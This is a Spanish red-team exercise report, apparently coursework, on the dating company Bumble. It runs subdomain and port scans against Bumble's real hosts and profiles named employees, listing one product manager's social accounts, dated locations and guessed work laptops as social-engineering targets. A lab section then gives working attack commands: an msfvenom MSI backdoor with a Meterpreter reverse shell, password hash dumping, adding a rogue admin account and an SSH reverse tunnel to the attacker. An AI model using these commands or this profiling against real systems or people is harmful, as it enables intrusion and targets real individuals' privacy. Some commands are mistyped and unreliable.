


# Planificación y Reconocimiento de Organización
## Introducción 
El ejercicio estratégico de Red Team y Reconocimiento de la Organización representa una inmersión integral en el ámbito de la ciberseguridad, diseñado para evaluar y fortalecer las defensas de una organización.

El ejercicio de Red Team y Reconocimiento de la Organización es una simulación controlada en la que un equipo especializado, nuestro "Red Team", emula tácticas de ciberataque para evaluar la robustez de nuestras defensas.

La realización de este ejercicio tiene objetivos cruciales. En primer lugar, nos permite identificar posibles debilidades y brechas de seguridad en nuestra infraestructura antes de que sean explotadas por amenazas reales. Al emular tácticas de adversarios potenciales, obtenemos una perspectiva única sobre cómo podríamos ser vulnerables y dónde necesitamos reforzar nuestras defensas.

En segundo lugar, este ejercicio nos proporciona una oportunidad invaluable para mejorar nuestra capacidad de respuesta a incidentes. Al enfrentarnos a situaciones simuladas, nuestro equipo de seguridad podrá practicar la detección y mitigación de amenazas, refinando sus habilidades y procesos para estar mejor preparados en situaciones reales.

Al finalizar un ejercicio, esperamos obtener una visión detallada de nuestra exposición en línea y las posibles rutas que podrían explorar los adversarios. Identificaremos áreas críticas de mejora, desde la configuración de servicios hasta la concientización del personal, y utilizaremos estos insights para reforzar nuestras políticas de seguridad.

Este ejercicio no solo se trata de identificar debilidades, sino de convertir cada hallazgo en una oportunidad de mejora. Fortaleceremos nuestras defensas, aumentaremos la resiliencia de nuestra organización ante amenazas emergentes y mejoraremos nuestra postura de seguridad de manera proactiva.

## Reconocimiento
La empresa *Bumble*. *Bumble*, conocida por su destacado papel en la industria de las aplicaciones de citas y conexiones, ha ganado un lugar destacado en el mercado global y ha atraído la atención de millones de usuarios. Esta evaluación tiene como objetivo proporcionar una visión integral de la presencia en línea y la seguridad de la información asociada a Bumble, destacando áreas de interés y preocupación desde una perspectiva de seguridad cibernética.

La recopilación de información se llevó a cabo mediante métodos éticos y legales, con el fin de analizar la superficie visible de la empresa en línea y evaluar cualquier posible exposición de datos o vulnerabilidades que podrían afectar tanto a la empresa como a sus usuarios.

Es importante enfatizar que este informe se basa en la información disponible públicamente y no involucra actividades intrusivas ni acciones que violen la legalidad o la ética.

### Reconocimiento Vertical.
Lo primero que se hizo fue empezar con un reconocimiento vertical del objetivo (Bumble) en este caso.

Usando *shuffledns*, una herramienta diseñada para descubrir subdominios de un dominio dado utilizando listas de dominios y resolutores DNS.

Para después redirigir la salida de la ejecución de *shuffledns* hacia un archivo llamado "bumble_subdominios_shuffledns.txt".

```bash
shuffledns -d bumble.com -W $HOME/recopilacion/lists/domains.txt -r $HOME/recopilacion/lists/resolvers.txt -silent > bumble_subdominios_shuffledns.txt
```
Una vez con nuestra lista de subdominios aplicaremos una técnica de **Web Scraping** utilizando *katana*.
```bash
cat bumble_subdominios_shuffledns.txt | katana -silent -jc -o bumble_output_katana.txt -kf robotstxt,sitemapxml
```


Filtrado con **unfurl**
```bash
cat bumble_output_katana.txt | unfurl --unique domains
```
Guardaremos un fichero nuevo los resultados obtenidos después de filtrar el scraping realizado con *katana*.

```bash
cat > bumble_output_unfurl.txt
```
Después de realizar la recopilación de todas las listas de subdominios juntamos todos los subdominios únicos en un solo fichero.
```bash
cat bumble_output_unfurl.txt bumble_subdominios_shuffledns.txt | sort | uniq > bumble_subdominios_total.txt
```
Ya que obtubimos una cantidad limitada utilizaremos la herramienta *CTFR* para acompletar la lista de subdominios, lo cual nos dará algunos otros que pudieron ser omitidos en los pasos anteriores.

```bash
ctfr -d bumble.com > bumble_subdominios_ctfr.txt
```
<kbd> </kbd>

El archivo de grep genero algunos subdominios con `*` por lo que procederemos a hacer una limpieza ejecutando:

```bash
grep -v '^\*' bumble_subdominios_ctfr.txt > bumble_subdominios_grep.txt
```
Se procedio a juntar ambos ficheros (bumble_subdominios_total.txt y bumble_subdominios_grep.txt) para volver a filtrar y sacar una lista mas completa de subdominios para trabajar al final.

```bash
cat bumble_subdominios_total.txt bumble_subdominios_grep.txt | sort | uniq > bumble_subdominios_refined.txt
```
Otra herramienta usada fue *gau* la cual nos dara una lista de subdominios con la que también podemos extraer información interesante.

```bash
gau --threads 5 bumble.com --o bumble_subdominios_gau.txt
```

Y depuramos con:

```bash
cat bumble_subdominios_gau.txt | unfurl --unique domain | grep -v '^\*' > bumble_subdominios_unfurlgau_extract.txt
```
De esta manera eliminamos los subdominios recopilados con gau y también aquellos datos con '*'.

Uniremos los subdominios obtenidos con gau a nuestro fichero **bumble_subdominios_refined.txt** para acompletarlo si tuviese algun dominio que no halla sido agregado antes.

```bash
cat bumble_subdominios_refined.txt bumble_subdominios_unfurlgau_extract.txt | sort | uniq > bumble_subdominios_OK.txt
```
### Fingerprinting

Después de la recopilación de subdominios se validaron usando *httpx*.

```bash
cat bumble_subdominios_OK.txt | httpx -silent -o bumble_subdominios_verified.txt
```
En este caso en particular se omitio el uso de la bandera **-mc 200,401,403** que nos ayudaba a verificar los codigos de estado 401,403 de 'Bad request' y 200 de 'Status OK' ya que los resultados arrojados eran muy pocos.

Después limpiamos la salida para eliminar 'https://' y 'http://' que se agrego a la lista de sudominios después de usar httpx.

```bash
grep -oP '(?<=://)[^/]*' bumble_subdominios_verified.txt > bumble_subdverif_OK.txt
```
Donde la expresion que usamos toma como referencia el ': //' para eliminar lo que este antes y así poder devolvernos un archivo limpio.

Se procedio a realizar un escaneo de la lista de subdominios verificados con *nmap* donde se verifico si los servidores estaban activos.

```bash
nmap -sn -iL bumble_subdverif_OK.txt > bumble_servers_nmap.txt
```
Se extrajeron las ip obtenidas.

```bash
cat bumble_servers_nmap.txt | grep -oE '[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+' > ip_outputs_nmap.txt
```
Después buscamos conocer los puertos de la lista de dominios que tenemos.

```bash
sudo nmap -Pn -F -iL bumble_subdverif_OK.txt > ports_output_nmap.txt
```
Este escaneo nos arrojo los siguientes resultados destacados:

> Nmap scan report for blog.bumble.com (198.185.159.144)
> - Host is up (0.054s latency).
> - Other addresses for blog.bumble.com (not scanned): 198.49.> - 23.144 198.49.23.145 198.185.159.145
> - Not shown: 98 filtered tcp ports (no-response)
> - PORT    STATE SERVICE
> - 80/tcp  open  http
> - 443/tcp open  https

**Puerto 80/tcp (HTTP)**: Este puerto se utiliza para el tráfico HTTP no cifrado. Indica que la máquina tiene un servidor web en funcionamiento que escucha en el puerto 80, lo que generalmente se usa para servir contenido web. 

**Puerto 443/tcp (HTTPS)**: Este puerto se utiliza para el tráfico HTTPS cifrado, lo que sugiere que la máquina tiene un servidor web configurado para conexiones seguras. Esto es común para sitios web que manejan información confidencial, como transacciones financieras.

>Nmap scan report for mshot.bumble.com (31.222.68.67)
> - Host is up (0.18s latency).
> - Not shown: 95 filtered tcp ports (no-response)
> - PORT     STATE  SERVICE
> - 53/tcp   open   domain
> - 80/tcp   open   http
> - 443/tcp  open   https
> - 2121/tcp closed ccproxy-ftp
> - 8080/tcp closed http-proxy

**Puerto 53/tcp (Domain)**: Este es el puerto utilizado para el servicio DNS (Domain Name System). Significa que la máquina puede estar ejecutando un servidor DNS que permite consultas de resolución de nombres de dominio.

**Puerto 80/tcp (HTTP)**: Este puerto se utiliza para el tráfico HTTP no cifrado. Indica que la máquina tiene un servidor web en funcionamiento que escucha en el puerto 80, lo que generalmente se usa para servir contenido web. 

**Puerto 443/tcp (HTTPS)**: Este puerto se utiliza para el tráfico HTTPS cifrado, lo que sugiere que la máquina tiene un servidor web configurado para conexiones seguras. Esto es común para sitios web que manejan información confidencial, como transacciones financieras.

**Puerto 2121/tcp (Closed)**: Este puerto aparece como "cerrado", lo que significa que no está aceptando conexiones entrantes. El servicio asociado a este puerto es "ccproxy-ftp".

**Puerto 8080/tcp (Closed)**: Al igual que el puerto 2121, este puerto también aparece como "cerrado". El servicio asociado es "http-proxy".

>Nmap scan report for ir.bumble.com (162.159.130.11)
> - Host is up (0.015s latency).
> - Other addresses for ir.bumble.com (not scanned): > - 162.159.129.11 2606:4700:7::a29f:820b > - 2606:4700:7::a29f:810b
> - Not shown: 96 filtered tcp ports (no-response)
> - PORT     STATE SERVICE
> - 80/tcp   open  http
> - 443/tcp  open  https
> - 8080/tcp open  http-proxy
> - 8443/tcp open  https-alt

**Puerto 80/tcp (HTTP)**: Este puerto se utiliza para el tráfico HTTP no cifrado. Indica que la máquina tiene un servidor web en funcionamiento que escucha en el puerto 80, lo que generalmente se usa para servir contenido web.

**Puerto 443/tcp (HTTPS)**: Este puerto se utiliza para el tráfico HTTPS cifrado, lo que sugiere que la máquina tiene un servidor web configurado para conexiones seguras. Esto es común para sitios web que manejan información confidencial, como transacciones financieras.

**Puerto 8080/tcp (HTTP Proxy)**: Su presencia indica que la máquina podría estar realizando funciones de proxy HTTP. Un servidor proxy HTTP actúa como intermediario entre los clientes y los servidores web, permitiendo funciones como el filtrado de contenido o el equilibrio de carga. 

**Puerto 8443/tcp (HTTPS alternativo)**: Este puerto a menudo se utiliza para servicios web seguros alternativos o servicios de administración remota. 

Estas tres diferentes agrupaciones de puertos y funcionamientos se repiten en los diferentes servidores escaneados con *nmap*.

Si ejecutamos la herramienta *masscan* podremos corrobar estos resultados donde se nos mostro los puerto abiertos en cada ip.

```bash
sudo masscan -p 21,22,23,25,53,80,110,111,135,139,143,443,445,993,995,1723,3306,3389,5900,8080 --rate 1000 -iL bumble_ip_nmap.txt > bumble_output_masscan.txt
```
### Análisis OSINT 
**HUMINT**: La información que deseamos encontrar es:
    
- **Datos públicos personales** [nombres, posiciones, email's, numeros de telefono, cuentas asociadas]
- **Información de redes sociales** [fotos, videos, publicaciones, comentarios, intereses]
- **Información financiera** [ransacciones financieras, activos, deudas y otros detalles financieros que pueden estar disponibles en registros públicos, informes de crédito o documentos financieros en línea]
- **Información de empresas** [Datos sobre empresas, incluidos registros comerciales, informes financieros, registros de propiedad, información sobre empleados y otros detalles relacionados con la actividad empresarial]
- **Información pública en línea** [Artículos de noticias, blogs, foros de discusión, documentos en línea y otros contenidos públicos que pueden contener detalles relevantes sobre personas, organizaciones o temas de interés]

Usando el browser 'Google' se realizo la siguiente busqueda:

```browser
"blog working at bumble"
```
La idea detrás de dicha búsqueda corresponde a buscar información de uno de los empleados de 'Bumble',ya que al ser una empresa relativamente grande y con popularidad es probable que halla alguno que comparta sus experiencias en público.

**(Algunos de estos son las personas descritas a continuación.)**

Los primeras personas destacadas fueron :
Usando *sherlock* corroboramos varios de estos sitios, 

```bash
sherlock nikiagra
```


Niki Agrawal - Product Manager
Twitter: @nikiagra
Instagram: @goodbad_ux

meidum blog:@nikiagraniki

Location Record: 
- San Jose, CA. [04/03/2017]/{Collected from Instagram}
- Austin, TX - Bumble Headquarter. [19/05/2019]/{Collected from Instagram}
- London, UK. [03/09/2021]/{Collected from Instagram}
- Somewhere in,CA. [01/09/2023]/{Collected from Instagram}

Work Device [Especulativo(s)]:

**MacbookAir (Retina, 13-inch, 2018)**
- Model Identifier: MacBookAir8,1
- Part Numbers: MRE82xx/A, MREA2xx/A, MREE2xx/A, MRE92xx/A, MREC2xx/A, - MREF2xx/A, MUQT2xx/A, MUQU2xx/A, MUQV2xx/A
- Newest compatible operating system: macOS Sonoma}

**Thinkpad T440s**
- Intel Core i5 - 4ªGeneracion 4300U ( 1.9 GHz ) 
- 8GB de memoria RAM ( DDR3 )
- 120 SSD
- Pantalla de 14" FHD ( 1600 x 900 )
- WIFI / WEBCAM
- Bluetooth
- S.O. Windows 10 Profesional

Esvetlana Sbolotova - Senior Localization Manager
Septiembre 200 - Actual
LinkedIn: Svetlana Bolotova

medium blog:@svetlana.v.bolotova

**Vulnerabilidades**:
Durante el análisis inicial del sitio web "bumble.com", se identificaron varias áreas que requieren una atención especial desde una perspectiva de seguridad. A pesar de no haber encontrado servidores dañados o paneles de administración vulnerables en la búsqueda inicial, archivos on claves de servidores o contraseñas alojadas erroneamente, se han destacado los siguientes aspectos como los principales objetivos a considerar:

Un aspecto crítico a considerar en la evaluación de la seguridad de la persona "Niki Agrawal" es la posible vulnerabilidad de sus equipos de uso profesional, en particular, el *MacBook Air (Retina, 13-inch, 2018)* y el Thinkpad T440s. Ambos dispositivos muestran signos de antigüedad y podrían estar en riesgo de problemas de seguridad debido a la falta de actualizaciones de hardware y software.

El *MacBook Air*, modelo 2018, podría estar llegando al final de su vida útil en términos de actualizaciones de sistema operativo y seguridad. Esto significa que es posible que no reciba actualizaciones críticas de seguridad, lo que lo hace vulnerable a exploits y amenazas cibernéticas. Además, la diversidad de números de parte indica que podría ser difícil de rastrear y administrar desde una perspectiva de seguridad.

El *Thinkpad T440s*, aunque aún es funcional, utiliza componentes y sistema operativo más antiguos, lo que lo coloca en una posición similar de vulnerabilidad. La falta de actualizaciones de software y el uso de sistemas operativos más antiguos pueden dejar este dispositivo expuesto a vulnerabilidades conocidas y exploits que ya han sido corregidos en versiones más recientes.

La persona "Niki Agrawal" podría ser un objetivo de cara a un ejercicio de Red Team debido a que sus perfiles públicos en redes sociales proporcionan información detallada que podría ser aprovechada con fines maliciosos, lo que podría poner en riesgo la seguridad de su empresa y su propia privacidad. Sus cuentas de Twitter e Instagram revelan datos sobre su ubicación histórica, dispositivos de trabajo especulativos y blog personal, lo que potencialmente podría ser explotado para llevar a cabo  *ingeniería social*, ataques de *phishing* o intentos de acceso.

## Planificación de Ejercicio
### Objetivos del Ejercicio
- **Evaluar la resistencia de la infraestructura de seguridad**: 
    1. Análisis de Red
        - Escaneo de puertos y servicios.
        - Identificación de sistemas y servicios en ejecución.
        - Detección de posibles puntos de acceso no autorizados.
    2. Identificación de infraestructura
        - Servidores:
            - Evaluación de la configuración de seguridad.
            - Análisis de vulnerabilidades y parches.
            - Verificación de registros de acceso y actividad.
        - Dispositivos de la Empresa:
            - Inspección de políticas de seguridad y configuraciones.
            - Pruebas de acceso no autorizado.
            - Evaluación de cifrado y configuración de seguridad.
        - Dispositivos Móviles:
            - Revisión de políticas de gestión de dispositivos móviles (MDM).
            - Pruebas de seguridad en aplicaciones móviles.
            - Evaluación de medidas de protección de datos.
        - Servicios Cloud:
            - Revisión de configuraciones de seguridad en la nube.
            - Análisis de permisos y accesos.
            - Evaluación de registros de actividad.
        - Servicios de Deployment:
            - Pruebas de seguridad en entornos de desarrollo y producción.
            - Evaluación de prácticas de implementación segura.
            - Análisis de integridad de los paquetes de implementación.
        - Accesos a Oficinas:
            - Evaluación de medidas de seguridad física.
            - Pruebas de acceso no autorizado.
            - Revisión de registros de acceso y sistemas de vigilancia.
- **Identificar debilidades en la política de seguridad**: 
    1. Revisión de Documentación:
        - Examinar la documentación de la política de seguridad existente.
        - Identificar cualquier falta de coherencia o ambigüedad en las directrices.
    2. Análisis de Permisos y Accesos:
        - Evaluar los niveles de acceso de los usuarios y privilegios dentro de la organización.
        - Identificar posibles sobreprivilegios o carencias en la gestión de accesos.
    3. Auditoría de Configuraciones:
        - Revisar las configuraciones de seguridad en los sistemas y aplicaciones.
        - Identificar configuraciones inseguras o no conformes con las mejores prácticas.
    4. Seguimiento de Cumplimiento:
        - Verificar el cumplimiento con regulaciones y estándares de seguridad aplicables.
        - Identificar posibles brechas de cumplimiento y áreas de mejora.
    5. Pruebas de Seguridad:
        - Realizar pruebas de penetración en la infraestructura para identificar posibles vulnerabilidades.
        - Analizar cómo las políticas actuales mitigarían o permitirían explotar estas vulnerabilidades.
- **Probar la capacidad de respuesta del equipo de seguridad**: 
    1. Simulación de Incidentes:
        - Crear escenarios de incidentes de seguridad simulados.
        - Evaluar la rapidez y efectividad de la detección y respuesta del equipo.
    2. Comunicación de Incidentes:
        - Evaluar la eficacia de las comunicaciones internas y externas durante un incidente.
        - Verificar la claridad y la rapidez en la notificación a las partes relevantes.
    3. Análisis de Registros y Trazabilidad:
        - Revisar la capacidad del equipo para analizar registros y trazar eventos relacionados con un incidente.
        - Identificar áreas donde la trazabilidad pueda mejorarse.
    4. Entrenamiento Continuo:
        - Evaluar la efectividad de los programas de capacitación y ejercicio para el equipo de seguridad.
        - Identificar áreas de mejora en habilidades y conocimientos.
    5. Coordinación con Equipos Externos:
        - Simular la colaboración con equipos externos, como proveedores de servicios de respuesta a incidentes.
        - Evaluar la eficacia de la coordinación y la gestión de recursos durante un incidente.
- **Concientización del personal**: 
    1. *Asignación de Entrenamientos de Seguridad:
        - Identificación de grupos de empleados que requieren formación     específica.
        - Desarrollo de programas de formación personalizados según los     roles y responsabilidades.
        - Evaluación periódica de la participación y el progreso en los     entrenamientos.
    2. Cursos de Concientización con el Equipo de Seguridad de la Empresa:
        - Colaboración con el equipo de seguridad para desarrollar y    ofrecer cursos de concientización.
        - Enfoque en las últimas amenazas y técnicas de ataque.
        - Sesiones prácticas y demostraciones para mejorar la comprensión.
    3. Simulaciones de Ciberataques:
        - Creación de escenarios realistas de ciberataques para simular     situaciones del mundo real.
        - Inclusión de técnicas de ingeniería social y ataques de   phishing.
       - Evaluación de la capacidad del personal para identificar y    responder a amenazas simuladas.
       - Auditorías de Equipos de Trabajadores para Asegurar la    Integridad de la Infraestructura:
    4. Revisión de los dispositivos y sistemas utilizados por los empleados.
        - Evaluación de las configuraciones de seguridad en dispositivos    personales utilizados para el trabajo remoto.
        - Verificación de la implementación de políticas de seguridad,  como la autenticación de dos factores.
### Alcance del Ejercicio:
- **Infraestructura Tecnológica**: 
    1. Análisis de Configuración de Servidores:
        - Revisión de la configuración de servidores en busca de posibles vulnerabilidades y configuraciones inseguras.
        - Evaluación de las políticas de actualización de software y parches.
        - Revisión de sistemas desactualizados.
        - Revisión de maquinas virtuales así como contenedores con falta de mantenimiento.
    2. Evaluación de Redes:
        - Escaneo de redes para identificar posibles puntos de entrada no autorizados.
        - Análisis de la segmentación de red y la eficacia de las medidas de prevención de intrusiones.
    3. Pruebas de Aplicaciones Web y Móviles:
        - Evaluación de la seguridad de aplicaciones web y móviles utilizadas interna y externamente.
        - Identificación de vulnerabilidades como inyecciones SQL, XSS, CSRF, etc.
        - Distribución de herramientas open source modificadas.
    4. Análisis de Vulnerabilidades de Sistemas Críticos:
        - Pruebas de vulnerabilidades en sistemas críticos para la operación de la organización.
        - Evaluación de las medidas de seguridad implementadas en sistemas clave.
- **Recursos Humanos**: 
    1. Ingeniería Social a Empleados en General:
        - Pruebas de phishing, como envío de correos electrónicos falsos para evaluar la conciencia del personal.
        - Simulación de llamadas telefónicas de ingeniería social para medir la resistencia a la manipulación verbal.
    2. Interacción con Personal de la Empresa para Obtener Información:
        - Evaluación de la seguridad en la divulgación de información sensible por parte de empleados.
        - Entrevistas simuladas o interacciones informales para recopilar información sin autorización.
    3. Infiltración de Herramientas como Pendrives:
        - Distribución controlada de dispositivos USB en áreas de la empresa para evaluar la reacción y las acciones del personal.
        - Monitoreo del uso indebido de dispositivos extraíbles para evaluar la seguridad contra amenazas físicas.
    4. Manipulación a través del Lenguaje:
        - Simulación de interacciones verbales para evaluar la vulnerabilidad a la manipulación por parte del personal.
        - Análisis de la facilidad con la que se obtienen detalles confidenciales a través de conversaciones.
    5. Pruebas de Conciencia de Seguridad:
        - Evaluación de la respuesta de los empleados a situaciones sospechosas o solicitudes de información confidencial.
        - Medición de la capacidad del personal para reconocer y reportar intentos de ingeniería social.
    6. Revisión de Políticas de Seguridad con Personal:
        - Entrevistas con empleados para evaluar su comprensión de las políticas de seguridad.
        - Identificación de lagunas en la implementación y conocimiento de las políticas de seguridad.
    7. Evaluación de Dispositivos Personales de los Empleados:
        - Revisión de dispositivos personales utilizados para el trabajo remoto.
        - Identificación de posibles riesgos de seguridad asociados con el uso de dispositivos personales.
    8. Análisis de Sensibilidad a la Ingeniería Social:
        - Evaluación de la susceptibilidad de los empleados a la manipulación emocional y psicológica.
        - Identificación de áreas donde la concientización y la capacitación pueden fortalecerse.
- **Físico**:
    1. Evaluar Métodos de Accesos:
        - Revisión de los sistemas de control de acceso físico, como tarjetas magnéticas, tarjetas de proximidad o sistemas biométricos.
        - Pruebas de penetración para evaluar la resistencia de los puntos de acceso físico.
    2. Evaluar Contraseñas de Equipos, Servidores, Dispositivos Móviles y Llaves Electrónicas:
        - Auditoría de contraseñas en dispositivos físicos, como computadoras y servidores.
        - Evaluación de la robustez de las contraseñas utilizadas en sistemas de seguridad física y dispositivos móviles.
    3. Evaluar Integridad de Sistemas de Grabación:
        - Verificación de la integridad de las cámaras de seguridad y sistemas de grabación.
        - Evaluación de posibles puntos ciegos en la cobertura de cámaras en áreas críticas.
    4. Pruebas de Vulnerabilidades Físicas:
        - Evaluación de la resistencia física de cerraduras, puertas. ventanas, ventilación, cuartos de servicio, cuartos de servidores, acceso secretos de personal y VIP.
        - Simulación de intentos de intrusiones físicas para medir la capacidad de detección y respuesta.
    5. Monitoreo de Áreas Sensibles:
        - Evaluación de la efectividad del monitoreo en tiempo real de áreas críticas.
        - Identificación de posibles demoras o lagunas en la respuesta a eventos físicos.
    6. Seguridad en la Gestión de Llaves:
        - Revisión de los procedimientos de manejo de llaves físicas y electrónicas.
        - Evaluación de la seguridad en la distribución y almacenamiento de llaves.
    7. Protección de Dispositivos de Almacenamiento Físico:
        - Evaluación de la seguridad física de servidores, unidades de almacenamiento y dispositivos de respaldo.
        - Pruebas de acceso no autorizado a dispositivos físicos almacenados en oficinas o centros de datos.
    8. Evaluación de Salidas de Emergencia:
        - Revisión de las medidas de seguridad alrededor de las salidas de emergencia.
        - Verificación de la integridad de los sistemas de alarma y la accesibilidad de las salidas de emergencia.
    9. Protección contra Desastres Naturales:
        - Evaluación de las medidas de seguridad física contra desastres naturales (por ejemplo, inundaciones, incendios).
        - Verificación de la integridad de sistemas de respaldo y recuperación ante desastres.
    10. Seguridad en Transporte de Equipos Sensibles:
        - Revisión de los procedimientos de seguridad al transportar equipos críticos.
        - Evaluación de medidas para proteger la integridad y confidencialidad de la información durante el transporte.

### Diseño del Ejercicio:
- **Fase de Reconocimiento**: 
    1. Reconocimiento Inicial.
        - Identificación de información pública sobre la organización (por ejemplo, información en redes sociales, registros públicos).
        - Análisis de la presencia en línea de la organización y su imagen pública.
    2. Enumeración y Descubrimiento de Activos:
        - Identificación de dominios, subdominios y rangos de IP asociados con la organización.
        - Descubrimiento de servicios y aplicaciones activas en la infraestructura.
    3. Reconocimiento Activo y Pasivo:
        - Recopilación de información sobre infraestructura y sistemas utilizando métodos activos (escaneo de red) y pasivos (búsqueda de información en registros públicos).
        - Identificación de posibles objetivos y puntos de entrada.
    4. Análisis de Configuraciones y Vulnerabilidades:
        - Evaluación de configuraciones de seguridad en servidores y sistemas.
        - Escaneo de vulnerabilidades para identificar posibles puntos débiles.
    5. Impacto de las Vulnerabilidades:
        - Análisis de las consecuencias potenciales de las vulnerabilidades identificadas.
        - Evaluación del riesgo asociado con las vulnerabilidades en función de su impacto en la confidencialidad, integridad y disponibilidad.
    6. Reconocimiento de Relaciones Empresariales:
        - Identificación de asociaciones y relaciones comerciales que podrían ser explotadas.
        - Evaluación de la cadena de suministro y posibles puntos de entrada indirectos.  
    7. Monitoreo de Comunicaciones Externas:
        - Análisis de la información transmitida a través de canales de comunicación externos.
        - Evaluación de la exposición de información sensible a través de comunicaciones no cifradas.
    8. Reconocimiento de Personal Clave:
        - Identificación de roles y responsabilidades clave dentro de la organización.
        - Evaluación de perfiles de redes sociales y presencia en línea de personal ejecutivo y técnico.
    9. Análisis de Huellas Digitales:
        - Evaluación de la huella digital en línea de la organización, incluyendo información sobre servicios web y tecnologías utilizadas.
        - Identificación de información que podría ser explotada para ataques específicos.
- **Ataque Activo**: -- NO APLICA --
- **Evaluación de la Respuesta a Incidentes**: 
    1. Respuesta ante Intrución física.
    2. Respuesta ante Ataques de Phishing
    3. Respuesta ante Ataques de fuerza bruta.
    4. Respuesta ante Ataque de ingenieria social.
    5. Respuesta ante Cracking de Accesos.
    6. Respuesta ante Manipulación de Equipos.

**Informe y Recomendaciones**: Documentar los hallazgos, destacar las vulnerabilidades identificadas y proporcionar recomendaciones para mejorar la postura de seguridad.
### Consideraciones Adicionales:
- **Legalidad y Ética**: Asegurarse de que todas las actividades estén dentro de los límites legales y éticos.

- **Comunicación**: Informar a todas las partes relevantes sobre el ejercicio para evitar malentendidos y minimizar posibles impactos negativos.

- **Documentación Detallada**: Registrar todas las acciones realizadas durante el ejercicio para facilitar el análisis y la mejora continua.

- **Debriefing**: Realizar una sesión de debriefing al final del ejercicio para discutir los hallazgos y colaborar en la implementación de mejoras.

# Obtención de Active Directory
## Introducción
La enumeración de Active Directory es un paso esencial en la evaluación de la infraestructura, permitiéndonos identificar posibles debilidades y áreas de mejora en la gestión de usuarios, grupos y políticas de seguridad.

El objetivo principal de este ejercicio es simular un escenario en el que un actor malintencionado busca obtener privilegios de administrador dentro de un entorno de Active Directory. Para lograr esto, se emplearán técnicas de enumeración avanzada, aprovechando herramientas y métodos específicos para mapear la estructura de Active Directory, identificar cuentas de usuario privilegiadas y explorar vulnerabilidades en la configuración de permisos.

Durante el ejercicio, se prestará especial atención a las tácticas que podrían ser utilizadas para elevar privilegios y obtener acceso a cuentas de administrador. Esto incluirá la explotación de posibles vulnerabilidades, el análisis de configuraciones inseguras y la identificación de caminos de ataque que podrían ser explotados.

**Es fundamental destacar que este ejercicio se llevará a cabo en un entorno controlado y autorizado.**

## Proceso de Captura
### Reconocimiento 
La recopilación de información de la máquina W10 mediante:
`sysinfo`  
De esta manera se obtuvieron detalles sobre el sistema operativo, versión, configuración de red y aplicaciones en ejecución. Este paso es crucial para comprender el entorno objetivo.

### Explotación
Desde la maquina atacante se preparo un ambiente con Metasploit
```
msfconsole
```
>**La apertura de una consola de Metasploit es esencial para aprovechar las herramientas y exploits disponibles en el marco Metasploit.**

Se seleccionando el módulo /multi/handler
'set /multi/handler'.

La elección del payload windows/x64/meterpreter/reverse_tcp se ajusta al sistema operativo de la máquina víctima (64 bits). Configurar el LHOST y LPORT establece la dirección IP y el puerto para la conexión inversa.

- set LHOST 192.168.159.138
- set LPORT 443
- set PAYLOAD windows/x64/meterpreter/reverse_tcp


Se creo un fichero .msi el cual es un tipo de ejecutable que permite realizar instalaciones en ficheros especificos aun sin tener privilegios

La generación del archivo .msi con msfvenom permite crear un ejecutable que facilita la instalación del backdoor sin requerir privilegios elevados. **Esto garantiza una mayor probabilidad de éxito en la ejecución.**

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.159.138 LPORT=443 -f msi > /root/Documents/installer.msi
```

Para insertar el fichero .msi se creo desde otra shell un servidor con python para de esta manera compartir el fichero que nos servirá como backdoor para conectar el W10 a la maquina atacante

El uso de un servidor Python para compartir el fichero .msi proporciona un medio sencillo y rápido para que la máquina víctima descargue el archivo.

```
python3 -m hhtp.server 80
```


> Desde la maquina vicitima se descargo el archivo `installer.msi` creado previamente.


Cuando el fichero 'installer.msi' fue ejecutado fue posible iniciar una reverse shell con Meterpreter.

La descarga y ejecución del fichero .msi por parte de la máquina víctima desencadena la conexión inversa y la ejecución del payload, estableciendo la conexión con el atacante.

Utilizando Meterpreter, se obtuvo información sobre el usuario actual (getuid) y se extrajeron contraseñas almacenadas en el sistema (hashdump). Estos datos son fundamentales para la escalada de privilegios.


Usando el comando `shell` en meterpreter se inicializo una consola de tipo CMD desde donde se corrio el siguiente comando con el fin de agregar un nuevo usuario 

```
net user rottenadmin qwerty /add
```
y con 
```
net localgroup administrators rottenadmin /add
``` 
agregaremos al usuario al grupo de administradores.


La creación del usuario rottenadmin y su inclusión en el grupo de administradores permite al atacante mantener el acceso y realizar acciones con privilegios elevados.

Una vez fue agregado fue posible acceder a más información.

También dentro de Administrator fue posible acceder a los directorios hasta encontrar el fichero .txt llamado **"Importante.txt"** con la contrseña de Bill Harper.


Con estas credenciales fue posible hacer el login en una maquina lateral de la red usando el usuario Bill Harper y la contraseña alojada en fichero.


La escalada de privilegios incluyó el inicio de sesión en una máquina lateral y la creación de un túnel SSH, proporcionando un acceso persistente y más amplio en la red.

```
ssh -R 8080 -fCnN -oServerAliveInterval=60 -oServerAliveCountMax=1 -oUserKnownHostsFile=/dev/null -oStrictHostKeyChecking=no root@192.168.159.138
```


